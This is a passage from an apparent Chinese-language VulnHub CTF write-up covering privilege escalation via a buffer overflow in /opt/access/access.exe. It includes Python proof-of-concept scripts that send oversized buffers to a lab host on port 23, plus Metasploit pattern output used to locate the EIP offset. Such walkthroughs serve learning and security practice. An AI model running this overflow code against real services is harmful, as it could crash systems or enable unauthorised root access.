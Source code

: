 看来关键文件是`/opt/access/access.exe`

![6](https://static.iihack.com/vulnhub/613/6.png)

## 提权

只要溢出这个程序就可以获得root权限

### poc1.py

```bash
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
buff = "A" * 1900
nullByte = "\x00"
inputBuffer =  buff 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()
```

### poc2.py

先上msf-pattern_create

```bash
$ msf-pattern_create -l 200   
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

这里直接用msf-pattern_create生成2000，未能溢出成功，

当`buff = 'A'*1700`时，Immunity Debugger获得的eip找不到。

改成1800个A拼接溢出成功。

```bash
#!/usr/bin/python2
import socket
import sys
import os
from time import sleep
ip = "10.0.2.14"
port = 23
buff = 'A'*1800
buff += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
nullByte = "\x00"
inputBuffer = buff 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()

```
